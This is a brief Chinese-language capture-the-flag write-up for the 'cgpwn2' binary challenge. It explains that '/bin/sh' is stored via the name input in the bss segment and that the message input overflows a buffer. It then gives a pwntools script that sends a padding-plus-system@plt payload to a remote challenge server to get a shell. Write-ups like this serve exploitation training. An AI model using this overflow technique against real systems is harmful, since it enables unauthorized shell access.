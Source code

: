 # WP-GCPWN2

两个输入 *name* 和 *Message*

![lmeLx0](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/lmeLx0.png)

- name会写入bss段，所以直接写/bin/sh
- 写入Message的地方存在一个溢出，直接执行system

 ```python
#!/usr/bin/python
from pwn import *

#p=process("cgpwn2")
p=remote("111.198.29.45","56863")
#context.log_level='Debug'
#gdb.attach(p,'b *0x08048603')

sys_got=0x0804a01c
sys_plt=0x8048420
bin_sh=0x804a080

p.sendline("/bin/sh\x00")
payload=p32(sys_plt)+p32(0)+p32(bin_sh)+p32(0)+p32(0)
p.sendline("B"*0x2a+payload)

p.interactive()
 ```

![oEZaI0](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/oEZaI0.png)